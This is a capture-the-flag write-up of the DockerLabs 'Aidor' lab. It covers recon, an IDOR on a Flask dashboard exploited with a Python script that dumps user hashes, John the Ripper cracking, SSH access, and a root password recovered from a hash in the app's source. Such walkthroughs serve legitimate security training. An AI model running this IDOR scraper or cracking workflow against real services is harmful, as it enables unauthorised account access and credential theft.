# Aidor — DockerLabs Writeup

**Platform:** DockerLabs · **Difficulty:** Easy · **Target IP:** 172.17.0.2 · **Attacker IP:** 172.17.0.1


## Summary

Aidor is an easy machine built around an IDOR (Insecure Direct Object Reference) vulnerability in a Flask web dashboard. A simple self-registration flow grants access to a dashboard that trusts a user-supplied `id` parameter without checking ownership, exposing every other user's username and password hash directly in the page HTML. Cracking those hashes yields SSH access, and a leftover credential inside the application's source code leads directly to root.

**Attack chain:** Recon → Enumeration of `/register` and `/dashboard` (Flask app on port 5000) → Register account → IDOR on `/dashboard?id=N` leaks all usernames + password hashes → Crack hashes with John → SSH login as `aidor` → Read `app.py` source, exposing a commented-out root credential → Crack root hash → `su root` → root

## 1. Reconnaissance

```bash
ping -c 5 172.17.0.2
```



```bash
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2
```

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 10.0p2 Debian 7 (protocol 2.0)
5000/tcp open  http    syn-ack ttl 64 Werkzeug httpd 3.1.3 (Python 3.13.5)
|_http-server-header: Werkzeug/3.1.3 Python/3.13.5
| http-methods:
|_  Supported Methods: OPTIONS POST HEAD GET
|_http-title: Iniciar Sesi\xC3\xB3n
```

Two services exposed: SSH and a Flask web application on port 5000, with a login page titled "Iniciar Sesión".



## 2. Web Enumeration

Directory brute-force against the Flask app:

```bash
dirb http://172.17.0.2:5000
```



**Interesting paths found:**

| Path | Code |
|------|------|
| `/change_password` | 405 (POST only — not browsable) |
| `/console` | 400 |
| `/dashboard` | 302 |
| `/logout` | 302 |
| `/register` | 200 |

`/register` returns 200 without authentication — self-service account creation is open.

## 3. Initial Access via Self-Registration



Registered a throwaway account through `/register`:

```
username: test
email: test@gmail.com
password: test1234!
```



Registration succeeded and redirected to `/dashboard?id=55` — the newly created account's ID appears directly in the URL as a plain integer.



## 4. IDOR — Discovering the Hash Leak

The `id` parameter in `/dashboard?id=N` (`N` being any numeric user ID) is trusted without verifying it belongs to the logged-in session. Scrolling down the same dashboard page also reveals a "Cambiar Contraseña" section that displays the **current password hash** of whichever `id` is loaded — the hash is rendered straight into the HTML:

```html
<div class="password-section">
    <h3><i class="fas fa-key"></i> Cambiar Contraseña</h3>
    <div class="password-info">
        <div class="current-password-display">
            <p><strong>Contraseña Actual (Hash):</strong></p>
            <div class="password-hash">5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8</div>
        </div>
    </div>
    <form method="POST" action="/change_password" class="password-form">
        ...
    </form>
</div>
```

Note: `/change_password` itself only accepts `POST` (confirmed by the 405 in the dirb scan and a manual GET test) — the hash isn't served from that route. It's embedded directly in the `/dashboard?id=N` page, so no extra request is needed to read it.

## 5. Automating the Dump

A script walks through IDs 1-100, pulling the username and hash out of each `/dashboard?id=N` response, and saves the results:

```python
import re
import requests

BASE_URL = "http://172.17.0.2:5000"
SESSION_COOKIE = {"session": "<valid session cookie>"}

USERNAME_RE = re.compile(r'Bienvenido,\s*([A-Za-z0-9_.@-]+)', re.IGNORECASE)
HASH_RE = re.compile(r'class="password-hash">\s*([a-f0-9]{32,64})\s*<', re.IGNORECASE)


def fetch(session, path, uid):
    url = f"{BASE_URL}{path}?id={uid}"
    try:
        r = session.get(url, timeout=5)
    except requests.RequestException:
        return None
    if r.status_code != 200:
        return None
    return r.text


def extract_username(html):
    m = USERNAME_RE.search(html)
    return m.group(1) if m else None


def extract_hash(html):
    m = HASH_RE.search(html)
    return m.group(1) if m else None


def main():
    session = requests.Session()
    session.cookies.update(SESSION_COOKIE)

    results = []
    for uid in range(1, 100):
        dash_html = fetch(session, "/dashboard", uid)
        username = extract_username(dash_html) if dash_html else None
        user_hash = extract_hash(dash_html) if dash_html else None

        if username or user_hash:
            print(f"[+] id={uid}  user={username or '?'}  hash={user_hash or '?'}")
            results.append({"id": uid, "username": username, "hash": user_hash})

    print(f"\n[*] Total found: {len(results)}")
    with open("aidor_users.txt", "w") as f:
        for r in results:
            f.write(f"{r['id']}:{r['username']}:{r['hash']}\n")
    print("[*] Saved to aidor_users.txt")


if __name__ == "__main__":
    main()
```

Output (trimmed — most accounts share one generic placeholder hash):

```
[+] id=3   user=juan.perez           hash=5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
[+] id=4   user=maria.garcia         hash=5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
...
[+] id=27  user=admin                hash=d033e22ae348aeb5660fc2140aec35850c4da997
...
[+] id=52  user=pingu                hash=dd0284ae23bfe3ed87de34568afa73e03380b7990fcb69b2d11cc902eb1060a3
[+] id=53  user=pepe                 hash=7c9e7c1494b2684ab7c19d6aff737e460fa9e98d5a234da1310c97ddf5691834
[+] id=54  user=aidor                hash=7499aced43869b27f505701e4edc737f0cc346add1240d4ba86fbfa251e0fc35
[+] id=55  user=test                 hash=d27c5b2db7dc392a0cfeb18b9782f34709d1dea7bdb8dd7209f6d4c7387c7910

[*] Total found: 53
[*] Saved to aidor_users.txt
```

Out of 53 accounts found, four stand out with **unique** hashes — the real, meaningful accounts on the box:

| User | Hash | Format |
|------|------|--------|
| `admin` | `d033e22ae348aeb5660fc2140aec35850c4da997` | SHA-1 (40 chars) |
| `pingu` | `dd0284ae23bfe3ed87de34568afa73e03380b7990fcb69b2d11cc902eb1060a3` | SHA-256 (64 chars) |
| `pepe` | `7c9e7c1494b2684ab7c19d6aff737e460fa9e98d5a234da1310c97ddf5691834` | SHA-256 (64 chars) |
| `aidor` | `7499aced43869b27f505701e4edc737f0cc346add1240d4ba86fbfa251e0fc35` | SHA-256 (64 chars) |

## 6. Cracking the Hashes

Created directly with a text editor (`nano`), typing each `user:hash` pair by hand from the four unique hashes found in step 5:

```bash
❯ nano user_hash.txt
❯ cat user_hash.txt
admin:d033e22ae348aeb5660fc2140aec35850c4da997
pingu:dd0284ae23bfe3ed87de34568afa73e03380b7990fcb69b2d11cc902eb1060a3
pepe:7c9e7c1494b2684ab7c19d6aff737e460fa9e98d5a234da1310c97ddf5691834
aidor:7499aced43869b27f505701e4edc737f0cc346add1240d4ba86fbfa251e0fc35
```

First pass with John auto-detecting the format:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt user_hash.txt
```

```
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Warning: only loading hashes of type "Raw-SHA1", but also saw type "cryptoSafe"
Warning: only loading hashes of type "Raw-SHA1", but also saw type "gost"
Warning: only loading hashes of type "Raw-SHA1", but also saw type "HAVAL-256-3"
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
admin            (admin)
1g 0:00:00:00 DONE (2026-08-13 18:54) 50.00g/s 991200p/s 991200c/s 991200C/s aleinad..Portugal
Session completed.
```

Because the file mixes SHA-1 (`admin`, 40 chars) and SHA-256 (`pingu`, `pepe`, `aidor`, 64 chars), John only auto-loads the SHA-1 hash in this pass and cracks it immediately: **`admin` → `admin`**. The three SHA-256 hashes needed a forced format, run separately:

```bash
❯ nano sha256_hashes.txt
❯ cat sha256_hashes.txt
pingu:dd0284ae23bfe3ed87de34568afa73e03380b7990fcb69b2d11cc902eb1060a3
pepe:7c9e7c1494b2684ab7c19d6aff737e460fa9e98d5a234da1310c97ddf5691834
aidor:7499aced43869b27f505701e4edc737f0cc346add1240d4ba86fbfa251e0fc35

❯ john --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt sha256_hashes.txt
```



For a clean, isolated confirmation of the admin hash alone:

```bash
echo "admin:d033e22ae348aeb5660fc2140aec35850c4da997" > admin_hash.txt
john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt admin_hash.txt
```



**Cracked credentials:**

| User | Password |
|------|----------|
| `admin` | `admin` |
| `pingu` | `pingu` |
| `pepe` | `pepe` |
| `aidor` | `chocolate` |

## 7. Testing the Credentials

`admin:admin` failed on the web login:



It also failed over SSH, as did `pingu:pingu` and `pepe:pepe`:

```bash
ssh admin@172.17.0.2
# Permission denied, please try again.

ssh pingu@172.17.0.2
# Permission denied, please try again.

ssh pepe@172.17.0.2
# Permission denied, please try again.
```

`aidor:chocolate` was the only one that worked over SSH:

```bash
ssh aidor@172.17.0.2
# password: chocolate
```



## 8. Post-Exploitation — Enumeration

```bash
whoami
id
sudo -l
find / -perm -4000 -type f 2>/dev/null
```



`sudo` isn't even installed on the box (`-bash: sudo: command not found`), and the SUID binary list is standard — nothing exploitable there. Moved on to the home directory:

```bash
cd ..
ls -la
```



`app.py` and `database.db` sit directly in `/home`, owned by `root` but world-readable — outside `aidor`'s own home folder, but still accessible.

## 9. Source Code Disclosure

```bash
cat app.py
```

Reading the Flask source revealed two important details. First, a weak, hardcoded session secret:

```python
app.secret_key = 'my_secret_key'
```

Second, a **commented-out** seed statement that would have inserted a `root` user directly into the database:

```python
# cursor.execute('''
# INSERT INTO users (username, password, email) VALUES
# ('root', 'aa87ddc5b4c24406d26ddad771ef44b0', 'admin@example.com')
# ''')  # La contraseña "admin" es hash SHA-256
```

The comment mislabels the hash as SHA-256, but `aa87ddc5b4c24406d26ddad771ef44b0` is 32 hex characters — an **MD5** hash left behind by the machine's author as a hint toward the real root credential. The source also confirms the IDOR itself:

```python
@app.route('/dashboard')
def dashboard():
    user_id = request.args.get('id') or session.get('user_id')
    ...
    cursor.execute('SELECT * FROM users WHERE id=?', (user_id,))
```

`/dashboard` reads `id` straight from the query string and queries the database with it, with no check that it matches `session['user_id']` — exactly the flaw exploited in steps 4-5.

## 10. Cracking the Root Hash

```bash
echo "aa87ddc5b4c24406d26ddad771ef44b0" > root.hash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt root.hash
```



**Cracked value:** `estrella`

## 11. Privilege Escalation

```bash
su root
# password: estrella
```

